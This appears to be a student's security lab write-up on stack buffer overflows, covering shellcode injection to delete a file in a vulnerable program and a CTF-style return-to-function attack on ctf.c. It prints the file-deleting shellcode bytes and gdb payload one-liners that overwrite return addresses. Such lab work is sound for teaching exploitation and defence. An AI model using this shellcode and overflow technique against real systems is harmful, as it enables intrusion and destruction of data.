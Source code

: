  22110042 Doan Minh Khanh
> ### Lab 2 
## Task 1
**Inject code to delete file: file_del.asm is given on github**

Create a file called dummy file
>![image](./IS_lab2/dummyfile.png)

 Firstly, accessing to the virtual machine by Docker
>![docker access](./IS_lab2/docker-acess.png)

> Go into the lab\seclabs\Security-labs\Software\buffer-overflow and then create a file_asm out by these 2 commands
![create_file](./IS_lab2/file-delout.png)

Then I will get the hexstring of file_del

 for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
>\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
>
Remove \xdummyfile because it is not meaningful hexadecimal code       
> \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

Stack Frame
>  ![image](./IS_lab2/stackeframe.png)

To execute the the file_del, it needs to overwrite the buffer

It is: 36 bytes shell code + 4 bytes return address + 32 bytes placement code = 72 bytes

Now we need to access gdb of vuln.out 
>  ![image](./IS_lab2/gdb-vulnout.png)

 break at 0x0804843e and 0x0804846b

 using r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

then we run the shell and look by command: x/80xb $esp

>Then, we will observe the first 3 bytes will respond the shellocde, but at the 4th byte because we have \x0a in the hexstring, the strcpy will make the interuption
>![image](./IS_lab2/strcpy.png)

Therefore, we need to change some character:
* 0x00: null
* 0x09: horizontal tab
* 0x0a: line feed
>![image](./IS_lab2/rootstarter.png)
>
> So we need to change the assembly code in file-del to this for replacing the \x0a in the line *"move eax,10"* 
> 
>![image](./IS_lab2/changestarter.png)

Get the shellcode again, we have:
>![image](./IS_lab2/afterchangecode.png)
 
 Now, we prevent the termination by the address 0xff and mark the return of the return frame
> 
 Also, we can see the address pf esp is \x68\xd6\xff\xff. So we need change the marked position to this position. So we change the command into:
>![image](./IS_lab2/setagain.png)
> r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\x68\xd6\xff\xff')")
> 
> ![image](./IS_lab2/afterchangemarked.png)
 
 then we continue to set 0xffffd6d8b = 0x00 and change the bit from 0xffffd671 to 0xffffd674 to the address of the dummyfile
> ![image](./IS_lab2/dummyfile_addr.png)
 
  then we have final result
> ![image](./IS_lab2/set0x00.png)

 and the dummy_file is deleted by vuln.c
> ![image](./IS_lab2/dummyfile_deleted.png)

***
## Task 2
**Conduct attack on ctf.c** 

 The stack frame
> ![image](./IS_lab2/stackctf.png)

The *vuln* function accounts for the first 104 bytes
> ![image](./IS_lab2/code-ctf.png)
To overflow, we need to over the return address


Create the file ctf.out
> gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

Connect gdb and disas myfunc
> ![image](./IS_lab2/disasmyfunc.png)
> we have the *myfunc* adress: 0x0804851b, and p = 0x04081211 and q = 0x44644262 so we have the command
> we have 104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)
> 
> r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After running we met flag 1 is missing >> create flag1.txt
> ![image](./IS_lab2/flag1misssing.png)
> ![image](./IS_lab2/createdflag1.png)

But when running in gdb, it meet an infinite func
>![image](./IS_lab2/infinite.png)

So we need to find the exit address to replace the padding 
>![image](./IS_lab2/exitaddr.png)
> r $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08'+ '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")

 Run again and we have the expected outcome:
> ![image](./IS_lab2/overflow.png)




